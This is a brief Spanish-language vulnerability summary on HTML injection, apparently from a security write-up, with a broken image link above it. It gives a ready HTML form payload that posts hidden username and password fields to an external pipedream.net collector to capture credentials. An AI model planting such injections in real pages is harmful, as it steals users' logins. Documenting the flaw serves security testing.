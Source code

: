 - --
###  Resumen de la Vulnerabilidad: HTML Injection

#### Ejemplo de Explotación
El código HTML mostrado en la imagen se puede insertar en una página vulnerable para capturar credenciales:
```html
<form action="https://eo2iwcccmp2l4wb.m.pipedream.net" method="GET">
    <input type="text" name="username" hidden>
    <input type="password" name="password" hidden>
    <button type="submit">Click me</button>
</form>
```

-- -
